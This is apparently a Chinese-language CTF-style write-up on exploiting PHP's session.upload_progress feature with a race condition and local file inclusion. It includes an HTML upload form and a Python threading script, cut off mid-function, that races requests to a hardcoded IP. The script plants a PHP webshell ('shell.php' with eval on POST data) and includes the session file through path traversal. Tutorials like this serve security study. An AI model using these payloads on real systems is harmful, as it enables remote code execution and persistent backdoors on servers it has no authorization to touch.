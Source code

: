 - upload file
>files={'file': ('a.txt', "xxxxxxx")}
- 设置cookie PHPSESSID
>session.use_strict_mode=0造成Session ID可控
PHPSESSID=Qftm
- POST一个字段PHP_SESSION_UPLOAD_PROGRESS
>session.upload_progress.name="PHP_SESSION_UPLOAD_PROGRESS"，在session中可控，同时，触发系统初始化session
"PHP_SESSION_UPLOAD_PROGRESS":  比如 '<?php phpinfo();?>'
- session.upload_progress.cleanup = on
>多线程，时间竞争
---
攻击：
1.表单利用攻击

```bash
<!doctype html>
<html>
<body>
<form action="http://192.33.6.145/index.php" method="post" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" vaule="<?php phpinfo(); ?>" />
    <input type="file" name="file1" />
    <input type="file" name="file2" />
    <input type="submit" />
</form>
</body>
</html>
```
但是同样需要注意的是，cleanup是on，所以需要条件竞争，使用BP抓包，一遍疯狂发包，一遍疯狂请求。

![](https://img-blog.csdnimg.cn/20210128040139525.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
代理拦截我们的上传请求数据包，这里需要设置Cookie: PHPSESSID=123456789（自定义sessionID），然后不断发包（请求载荷设置Null payloads），不断生成session，传入恶意会话。

再不断发出请求包含恶意session
![](https://img-blog.csdnimg.cn/2021012804031588.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
请求载荷设置Null payloads

在一端不断发包维持恶意session存储的时候，另一端不断发包请求包含恶意的session

---
2.脚本攻击

```bash
import io
import sys
import requests
import threading

sessid = 'Qftm'

def POST(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        session.post(
            'http://192.33.6.145/index.php',
            data={"PHP_SESSION_UPLOAD_PROGRESS":"<?php phpinfo();fputs(fopen('shell.php','w'),'<?php @eval($_POST[mtfQ])?>');?>"},
            files={"file":('q.txt', f)},
            cookies={'PHPSESSID':sessid}
        )

def READ(session):
    while True:
        response = session.get(f'http://192.33.6.145/index.php?file=../../../../../../../../var/lib/php/sessions/sess_{sessid}')
```